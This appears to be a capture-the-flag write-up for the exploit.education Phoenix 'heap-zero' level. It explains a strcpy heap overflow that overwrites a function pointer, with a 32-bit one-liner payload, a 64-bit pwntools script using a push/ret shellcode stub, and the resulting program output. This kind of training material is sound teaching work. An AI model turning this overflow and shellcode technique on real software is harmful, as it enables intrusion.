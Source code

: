 ```yaml
---
layout: post
title: "exploit.education Phoenix - Heap 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [https://exploit.education/phoenix/heap-zero/](https://exploit.education/phoenix/heap-zero/).

<!--more-->

## Solution

The goal is to redirect execution to the winner() function. This could be achieved by overwriting
the `fp` function pointer of `f`. `f` is located after `d` on the heap. `d` is filled using `strcpy`
without bounds checking. This means we can overflow the `name` field of `d` in order to overwrite
`f->fp`. Note that this will also overwrite control data of `f` which will probably make any call
to `free` crash later on.

Since there is no memory protection (like ASLR), we can simply find out the address of the `winner`
function using objdump:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ objdump -d heap-zero | grep winner
08048835 <winner>:
```

Now we need the offset of `f->fp` from `d->name` which we can write arbitrary data to.
Given the informative output of the program we can easily deduct the offset by probing
the executable (e.g. using binary search or using a unique pattern). Alternatively,
by looking at the source, we know that the `data` struct uses 64 bytes of memory, followed
by 8 bytes of heap control structure for `f` (prev_size, size). This means the function pointer we want to overwrite
is located 72 bytes after `d->name`. This results in the following exploit:

```bash
./heap-zero `python -c 'print "A"*72 + "\x08\x04\x88\x35"[::-1]' `
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-zero `python -c 'print "A"*72 + "\x08\x04\x88\x35"[::-1]' `
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

Note that `[::-1]` reverses a string in Python.

## 64-bit version

The 64-bit version makes this challenge a bit trickier since the address of `winner` contains null bytes that will end the string when read with `strcpy`. Thus, to get to the `winner` function, we add a level of indirection. We put a short shellcode at the beginning of our buffer that jumps to the winner function (`push ADDR; ret`). Using the buffer overflow, we can overwrite the function pointer `fp` with the address of our buffer, which doesn't contain any null bytes. This is the exploit:                                                                                               
```bash
# getting the required addresses
user@phoenix-amd64:~$ /opt/phoenix/amd64/heap-zero test
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef6010, fp is at 0x7ffff7ef6060, will be calling 0x400ace

user@phoenix-amd64:~$ objdump -d /opt/phoenix/amd64/heap-zero | grep winner
0000000000400abd <winner>:
```

```Python
import pwnlib
import struct

DATA_ADDR = 0x7ffff7ef6010
WINNER_ADDR = 0x400abd

pwnlib.context.arch = 'amd64'
shellcode = pwnlib.shellcraft.amd64.push(WINNER_ADDR)
shellcode += pwnlib.shellcraft.amd64.ret()

shellcode = pwnlib.asm.asm(shellcode, arch='amd64')

buf = shellcode + "A" * (80 - len(shellcode)) # offset between fp and buf is 80
buf += struct.pack("<Q", DATA_ADDR)

print buf
```

And running the exploit:

```bash
user@phoenix-amd64:~$ /opt/phoenix/amd64/heap-zero $(python heap0_64.py)
-bash: warning: command substitution: ignored null byte in input
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef6010, fp is at 0x7ffff7ef6060, will be calling 0x7ffff7ef6010
Congratulations, you have passed this level
```

Nice!

